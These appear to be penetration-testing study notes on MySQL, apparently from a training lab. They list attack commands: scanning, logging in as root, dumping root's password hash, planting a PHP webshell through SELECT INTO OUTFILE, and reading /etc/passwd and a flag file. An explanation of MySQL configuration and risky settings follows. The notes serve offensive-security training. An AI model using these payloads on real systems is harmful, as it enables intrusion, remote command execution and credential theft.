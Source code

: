 ##### Scanning and Connecting
```bash
nmap -Pn -n -sV -sC -p3306 --script 'mysql*' $ip

mysql -u root -pPASSWORD -h 10.10.1.100 -P 3306
mysql -u root -pPASSWORD -h 10.10.1.100 -P 3306 --skip-ssl
```

##### Enumeration - Find more [here ](obsidian://open?vault=Penetration%20Testing&file=Web%20Applications%2FSQLi%2F~%20Intro)
```sql
select version();
select system_user();
show databases;
use <database>;
show tables;
show columns from <table>;
select * from <table>;
select * from <table> where <column> = "<string>";

SELECT user, authentication_string FROM mysql.user WHERE user = 'root';

```

##### Write Local Files
Check value of `secure_file_priv` (empty is good, NULL is bad)
```sql
show variables like "secure_file_priv";
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '/var/www/html/webshell.php';
SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE "C:/xampp/htdocs/dashboard/cmd.php";
```

##### Read Local Files
```sql
select LOAD_FILE("/etc/passwd");
select LOAD_FILE("C:/Users/Administrator/Desktop/flag.txt");
```
`MySQL` is an open-source SQL relational database management system developed and supported by Oracle. A database is simply a structured collection of data organized for easy use and retrieval.

The data is stored in tables with different columns, rows, and data types. These databases are often stored in a single file with the file extension `.sql`, for example, like `wordpress.sql`

### MySQL Clients
The MySQL clients can retrieve and edit the data using structured queries to the database engine. Inserting, deleting, modifying, and retrieving data, is done using the SQL database language. Therefore, MySQL is suitable for managing many different databases to which clients can send multiple queries simultaneously.

One of the best examples of database usage is the CMS WordPress. WordPress stores all created posts, usernames, and passwords in their own database, which is only accessible from the localhost.

### MySQL Databases
MySQL is ideally suited for applications such as `dynamic websites`, where efficient syntax and high response speed are essential. It is often combined with a Linux OS, PHP, and an Apache web server and is also known in this combination as [LAMP](https://en.wikipedia.org/wiki/LAMP_(software_bundle)) (Linux, Apache, MySQL, PHP), or when using Nginx, as [LEMP](https://lemp.io/). In a web hosting with MySQL database, this serves as a central instance in which content required by PHP scripts is stored. Among these are:

| Headers                 | Texts            | Meta tags         | Forms      |
| ----------------------- | ---------------- | ----------------- | ---------- |
| Customers               | Usernames        | Administrators    | Moderators |
| Email addresses         | User information | Permissions       | Passwords  |
| External/Internal links | Links to Files   | Specific contents | Values     |

Sensitive data such as passwords can be stored in their plain-text form by MySQL; however, they are generally encrypted beforehand by the PHP scripts using secure methods such as [One-Way-Encryption](https://en.citizendium.org/wiki/One-way_encryption).

### Default Configuration
```bash
adot8@htb[/htb]$ cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'

[client]
port		= 3306
socket		= /var/run/mysqld/mysqld.sock

[mysqld_safe]
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
nice		= 0

[mysqld]
skip-host-cache
skip-name-resolve
user		= mysql
pid-file	= /var/run/mysqld/mysqld.pid
socket		= /var/run/mysqld/mysqld.sock
port		= 3306
basedir		= /usr
datadir		= /var/lib/mysql
tmpdir		= /tmp
lc-messages-dir	= /usr/share/mysql
explicit_defaults_for_timestamp

symbolic-links=0

!includedir /etc/mysql/conf.d/
```

### Dangerous Settings
|**Settings**|**Description**|
|---|---|
|`user`|Sets which user the MySQL service will run as.|
|`password`|Sets the password for the MySQL user.|
|`admin_address`|The IP address on which to listen for TCP/IP connections on the administrative network interface.|
|`debug`|This variable indicates the current debugging settings|
|`sql_warnings`|This variable controls whether single-row INSERT statements produce an information string if warnings occur.|
|`secure_file_priv`|This variable is used to limit the effect of data import and export operations.|
The settings `user`, `password`, and `admin_address` are security-relevant because the entries are made in plain text. Often, the rights for the configuration file of the MySQL server are not assigned correctly. If we get another way to read files or even a shell, we can see the file and the username and password for the MySQL server.

The `debug` and `sql_warnings` settings provide verbose information output in case of errors, which are essential for the administrator but should not be seen by others. This information often contains sensitive content, which could be detected by trial and error to identify further attack possibilities. These error messages are often displayed directly on web applications.

